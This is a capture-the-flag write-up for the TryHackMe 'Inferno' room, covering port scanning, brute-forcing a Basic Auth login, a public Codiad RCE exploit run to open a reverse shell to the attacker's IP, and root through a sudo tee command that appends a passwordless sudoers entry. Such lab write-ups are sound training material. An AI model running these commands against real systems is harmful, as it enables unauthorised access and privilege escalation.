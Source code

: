 # Inferno TryHackMe Writeup

>Room link : https://tryhackme.com/room/inferno


![](images/BoxImage.png)






































### Pathway

In this room first we bruteforce http login , then we find a public rce exploit and gain foothold and then with the help of a hidden file we gain user acccess. Then with sudo rights we gain root access.


## __First Stage : Enumeration__

Let's start with nmap scan.


```
# Nmap 7.91 scan initiated Fri Feb 19 21:53:19 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.190.142
Nmap scan report for 10.10.190.142
Host is up, received syn-ack (0.15s latency).
Scanned at 2021-02-19 21:53:19 IST for 2286s
Not shown: 65445 closed ports
Reason: 65445 conn-refused
PORT      STATE SERVICE           REASON  VERSION
21/tcp    open  ftp?              syn-ack
22/tcp    open  ssh               syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  telnet?           syn-ack
25/tcp    open  smtp?             syn-ack
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http              syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  kerberos-sec?     syn-ack
106/tcp   open  pop3pw?           syn-ack
110/tcp   open  pop3?             syn-ack
194/tcp   open  irc?              syn-ack
|_irc-info: Unable to open connection
389/tcp   open  ldap?             syn-ack
443/tcp   open  https?            syn-ack
464/tcp   open  kpasswd5?         syn-ack
636/tcp   open  ldapssl?          syn-ack
750/tcp   open  kerberos?         syn-ack
775/tcp   open  entomb?           syn-ack
777/tcp   open  multiling-http?   syn-ack
779/tcp   open  unknown           syn-ack
783/tcp   open  spamassassin?     syn-ack
808/tcp   open  ccproxy-http?     syn-ack
873/tcp   open  rsync?            syn-ack
1001/tcp  open  webpush?          syn-ack
1178/tcp  open  skkserv?          syn-ack
1210/tcp  open  eoss?             syn-ack
1236/tcp  open  bvcontrol?        syn-ack
1300/tcp  open  h323hostcallsc?   syn-ack
1313/tcp  open  bmc_patroldb?     syn-ack
1314/tcp  open  pdps?             syn-ack
1529/tcp  open  support?          syn-ack
2000/tcp  open  cisco-sccp?       syn-ack
2003/tcp  open  finger?           syn-ack
|_finger: ERROR: Script execution failed (use -d to debug)
2121/tcp  open  ccproxy-ftp?      syn-ack
2150/tcp  open  dynamic3d?        syn-ack
2600/tcp  open  zebrasrv?         syn-ack
2601/tcp  open  zebra?            syn-ack
2602/tcp  open  ripd?             syn-ack
2603/tcp  open  ripngd?           syn-ack
2604/tcp  open  ospfd?            syn-ack
2605/tcp  open  bgpd?             syn-ack
2606/tcp  open  netmon?           syn-ack
2607/tcp  open  connection?       syn-ack
2608/tcp  open  wag-service?      syn-ack
2988/tcp  open  hippad?           syn-ack
2989/tcp  open  zarkov?           syn-ack
4224/tcp  open  xtell?            syn-ack
4557/tcp  open  fax?              syn-ack
4559/tcp  open  hylafax?          syn-ack
4600/tcp  open  piranha1?         syn-ack
4949/tcp  open  munin?            syn-ack
5051/tcp  open  ida-agent?        syn-ack
5052/tcp  open  ita-manager?      syn-ack
5151/tcp  open  esri_sde?         syn-ack
5354/tcp  open  mdnsresponder?    syn-ack
5355/tcp  open  llmnr?            syn-ack
5432/tcp  open  postgresql?       syn-ack
5555/tcp  open  freeciv?          syn-ack
5666/tcp  open  nrpe?             syn-ack
5667/tcp  open  unknown           syn-ack
5674/tcp  open  hyperscsi-port?   syn-ack
5675/tcp  open  v5ua?             syn-ack
5680/tcp  open  canna?            syn-ack
6346/tcp  open  gnutella?         syn-ack
6514/tcp  open  syslog-tls?       syn-ack
6566/tcp  open  sane-port?        syn-ack
6667/tcp  open  irc?              syn-ack
|_irc-info: Unable to open connection
8021/tcp  open  ftp-proxy?        syn-ack
8081/tcp  open  blackice-icecap?  syn-ack
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?       syn-ack
8990/tcp  open  http-wmap?        syn-ack
9098/tcp  open  unknown           syn-ack
9359/tcp  open  unknown           syn-ack
9418/tcp  open  git?              syn-ack
9673/tcp  open  unknown           syn-ack
10000/tcp open  snet-sensor-mgmt? syn-ack
10081/tcp open  famdc?            syn-ack
10082/tcp open  amandaidx?        syn-ack
10083/tcp open  amidxtape?        syn-ack
11201/tcp open  smsqp?            syn-ack
15345/tcp open  xpilot?           syn-ack
17001/tcp open  unknown           syn-ack
17002/tcp open  unknown           syn-ack
17003/tcp open  unknown           syn-ack
17004/tcp open  unknown           syn-ack
20011/tcp open  unknown           syn-ack
20012/tcp open  ss-idi-disc?      syn-ack
24554/tcp open  binkp?            syn-ack
27374/tcp open  subseven?         syn-ack
30865/tcp open  unknown           syn-ack
57000/tcp open  unknown           syn-ack
60177/tcp open  unknown           syn-ack
60179/tcp open  unknown           syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


Since there are too many open ports , I started with port 80.




![](images/port80.png)

So let's use gobuster to find directories.


```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.175.108/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php,json
[+] Timeout:        10s
===============================================================
2021/02/18 16:50:00 Starting gobuster
===============================================================
/index.html (Status: 200)
/inferno (Status: 401)
```

## __Second Stage : Initial access as www-data__

Hence we found the directory inferno , I visited it but it was protected with Basic Authentication . Hence I had a doubt on the image which was present in the home page , I downloaded it but found nothing.

I tried enumerating smtp , ftp and other ports but nothing interesting came.


Hence I tried bruteforcing the login using hydra.


So I created a user list .


![](images/users.png)

Using hydra I bruteforced.


![](images/hydra.png)



So if we login  we can see another login page.



![](images/login1.png)




I used the same username and pass , it worked.


![](images/ide.png)


Hence this is the web server which is running . I tried editing php files for reverse shell , but we don't have write permissions. Hence I the name of this IDE was in the title which is **Codiad**.


I searched for public exploits and found this RCE exploit.

Exploit link : https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit


I cloned it and used the program .


>  python exploit.py http://admin:dante1@10.10.4.111/inferno/  admin dante1 \<your-ip> 1234 linux


![](images/exploit.png)



Follow the commands given in that exploit and execute it. 

We get reverse shell.

For some reason the shell was not stable and I was losing connection , hence follow these steps.


![](images/www-data.png)



## __Third Stage : www-data to dante__


In the downloads directory there was a hidden file called **.download.dat**


![](images/down.png)



I used  CyberChef to decode and we get the password.

![](images/sshpass.png)



So now we can ssh into the machine and get flag.


![](images/dante.png)



For some reason the ssh connection was getting lost. So type /bin/sh or sh to get a stable shell.


## __Fourth Stage : dante to root__


So  I tried sudo -l.

![](images/perm.png)


So I searched this in [GTFOBins](https://gtfobins.github.io/) and got this.



```
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```

So for exploit we do this 

```
LFILE=/etc/sudoers
echo "dante  ALL=(ALL) NOPASSWD:ALL" | sudo tee -a "$LFILE"
```

This gives user dante the permission to execute anything without password.


![](images/root.png)



Hence we rooted!.



